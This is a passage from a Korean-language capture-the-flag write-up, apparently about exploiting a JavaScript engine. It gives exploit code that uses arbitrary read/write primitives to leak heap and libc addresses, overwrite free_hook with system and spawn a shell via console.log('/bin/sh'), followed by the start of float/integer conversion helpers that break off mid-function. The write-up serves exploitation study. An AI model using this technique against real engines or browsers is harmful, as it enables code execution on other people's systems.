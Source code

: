 - rwx 공간을 만들고 해당 공간에 셸 코드를 삽입 후 실행해주는 코드다.

---

## 두 번째 익스플로잇 방법

- libc_leak을 해서 free_hook과 system 주소를 구해서 console.log("/bin/sh")로 셸을 따는 방법

```jsx
heap_ptr = aar(addrof(arb_rw_arr)) - 0x2ec0n
heap = aar(heap_ptr)
libc_ptr = heap + 0xf8n
libc = aar(libc_ptr)
libc_base = libc - 0x3e82a0n
free_hook = libc_base + 0x3ed8e8n
system = libc_base + 0x4f4e0n

print("heap: " + hex(heap))
print("libc_ptr: " + hex(libc_ptr))
print("libc: " + hex(libc))
print("libc_base: " + hex(libc_base))
print("free_hook: " + hex(free_hook))
print("system: " + hex(system))

var buf = new ArrayBuffer(0x8)
var dv = new DataView(buf)
aaw_init(addrof(buf) + 0x20n, free_hook)
dv.setBigUint64(0, system, true)

console.log("/bin/sh");
```

### leak 과정

1. aar과 aaw를 할 때 사용했던 arb_rw_arr의 주소를 가져온다.
2. 해당 주소가 매핑되는 시작 부분에 heap 주소가 있다. (다른 쓸만한 주소는 안보였음)
3. 힙을 살펴보면 libc 주소가 있다.
- 근데 여기서 디버깅했을 때 보이는 힙의 값과 그냥 실행했을 때의 힙의 값의 위치가 미세한 차이가 있다.
- 그래서 적당히 아다리 맞춰서 릭을 해야 했다.
4. libc_base를 구했으면 free_hook과 system을 구해주면 끝

- 릭이 끝나면 aaw를 이용해 free_hook을 system으로 덮고 console.log("/bin/sh")를 해주면 된다.

---

## 코드

```jsx
var buf = new ArrayBuffer(8); 
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { 
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
}

function itof(val) { 
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function hex(b) {
	return ('0x' + b.toString(16));
```